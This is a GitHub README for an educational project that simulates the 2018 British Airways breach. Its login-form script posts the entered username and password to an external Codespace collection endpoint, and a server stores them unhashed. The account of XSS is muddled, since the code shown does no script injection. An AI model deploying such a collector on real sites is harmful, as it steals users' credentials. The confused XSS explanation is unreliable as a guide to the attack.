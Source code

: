 # XSS Attack Project

## Disclaimer
This project is intended for educational purposes only. Cross-Site Scripting (XSS) is a security vulnerability that should only be tested responsibly and with proper authorization. Unauthorized testing of XSS vulnerabilities is illegal and unethical.

## Project Description
This project demonstrates a Cross-Site Scripting (XSS) attack using a simple login form. The server collects login data and saves it to a JSON file.

## Table of Contents

- [XSS Attack Project](#xss-attack-project)
  - [Disclaimer](#disclaimer)
  - [Project Description](#project-description)
  - [Table of Contents](#table-of-contents)
  - [Installation](#installation)
  - [How to run the code](#how-to-run-the-code)
  - [Client Side Code](#client-side-code)
    - [Explanation](#explanation)
  - [XSS Demo Video](#xss-demo-video)
  - [British Airways Data Breach Simulation](#british-airways-data-breach-simulation)
    - [Back Story](#back-story)
    - [Simulation Details](#simulation-details)
    - [Relevant Links](#relevant-links)
  - [Contribution Guidelines](#contribution-guidelines)
  - [License Information](#license-information)
  - [Additional Resources](#additional-resources)

## Installation

* Ensure you have Node.js installed on your machine. You can download it from [Node.js](https://nodejs.org/).
* Ensure you have Git installed on your machine. You can download it from [Git](https://git-scm.com/).
* Clone the repository to your local machine.
* Navigate to the project directory.
* Install the dependencies by running the following command:
  ```bash
  npm install
  ```

## How to run the code

* It is recommended to run this project in a local or isolated environment due to potentially sensitive login data. But you can run on GitHub Codespace as well.
* Start the server by running the following command:
  ```bash
  node server.js
  ```

## Client Side Code

```html
<form id="loginForm">
<label for="username">Username:</label>
<input type="text" id="username" name="username" required><br><br>
 
<label for="password">Password:</label>
<input type="password" id="password" name="password" required><br><br>
 
<button type="button" id="loginButton">Login</button>
</form>
 
<script>
const apiUrl = 'https://unearthly-hex-679pp459qqgh574r-8001.app.github.dev/collect';

        function sendLoginToAPI(event) {
            event.preventDefault();

            alert("Login button clicked!");

            const username = $('#username').val();
            const password = $('#password').val();

            if (!username || !password) {
                alert("Both username and password are required.");
                return;
            }

            $.ajax({
                url: apiUrl,
                method: 'POST',
                contentType: 'application/json',
                data: JSON.stringify({ username: username, password: password }),
                success: function(data) {
                    console.log('Login response:', data);
                    alert('Login successful!');
                },
                error: function(xhr, status, error) {
                    console.error('Login failed:', error);
                    alert('Invalid username or password.');
                }
            });
        }

        $('#loginButton').on('mousedown', sendLoginToAPI);
</script>
```

Change your workspace name to your own workspace name in the apiUrl variable.

### Explanation
The client-side code handles the user input from the login form. When the login button is clicked, the `sendLoginToAPI` function is triggered. This function collects the username and password entered by the user and sends them to the server using an AJAX POST request. The server then processes this data and saves it to a JSON file. The XSS vulnerability could be exploited if an attacker injects malicious scripts into the username or password fields, which would then be executed when the data is processed or displayed.

## XSS Demo Video
<details><summary>View Demo Video</summary>


https://github.com/user-attachments/assets/289917ae-d0b3-43f3-8b9d-1af6f298c824

</details>


## British Airways Data Breach Simulation

### Back Story
In 2018, British Airways experienced a significant data breach that affected approximately 400,000 customers. The breach was a result of attackers exploiting vulnerabilities in the British Airways website, allowing them to steal sensitive customer information, including personal and financial data. The incident highlighted the importance of robust security measures to protect user data and prevent unauthorized access.

### Simulation Details
This project simulates the British Airways data breach by demonstrating several key vulnerabilities that were present in the actual incident. Here are the specific ways in which this project mirrors the British Airways data breach:

- **Cross-Site Scripting (XSS)**: The project demonstrates how an attacker can inject malicious scripts into the username or password fields of a login form. This is similar to how attackers exploited vulnerabilities in the British Airways website to steal customer data. The client-side code in `client_code.html` and the server-side code in `server.js` illustrate this vulnerability.

- **Insecure Data Storage**: The project saves login data, including usernames and passwords, to a JSON file (`users.json`) without any encryption or hashing. This mirrors the lack of proper data protection measures that contributed to the British Airways data breach.

- **Lack of Input Validation**: The server-side code in `server.js` performs only basic validation for the presence of username and password fields. It does not sanitize or validate the input to prevent malicious data from being processed, similar to the insufficient input validation that allowed attackers to exploit the British Airways website.

- **CORS Misconfiguration**: The server in `server.js` enables CORS (Cross-Origin Resource Sharing) without any restrictions, which can allow unauthorized domains to interact with the server and potentially exploit vulnerabilities. This is akin to the misconfigurations that can lead to data breaches like the one experienced by British Airways.

These vulnerabilities highlight the importance of implementing proper security measures, such as input validation, data encryption, and secure CORS configurations, to protect against attacks and ensure the safety of user data.

### Relevant Links
For more information about the British Airways data breach, you can refer to the following links:

- [British Airways hacked, hundreds of thousands of credit card numbers stolen](https://www.techradar.com/news/british-airways-hacked-hundreds-of-thousands-of-credit-card-numbers-stolen)
- [British Airways fined £20m over data breach](https://www.bbc.com/news/technology-54568784)
- [British Airways data breach: What you need to know](https://www.csoonline.com/article/3444488/british-airways-data-breach-what-you-need-to-know.html)
- [British Airways data breach: What happened and what to do](https://www.itpro.co.uk/security/32117/british-airways-data-breach-what-happened-and-what-to-do)

These articles provide comprehensive insights into the breach, its impact, and the subsequent actions taken. 
## Contribution Guidelines

1. Fork the repository.
2. Create a new branch for your feature or bugfix.
3. Commit your changes with a descriptive message.
4. Push your changes to your forked repository.
5. Create a pull request to the main repository.

## License Information

This project is licensed under the Apache License, Version 2.0.

## Additional Resources

* [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
* [OWASP Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
* [MDN Web Docs: Cross-Site Scripting (XSS)](https://developer.mozilla.org/en-US/docs/Glossary/Cross-site_scripting)
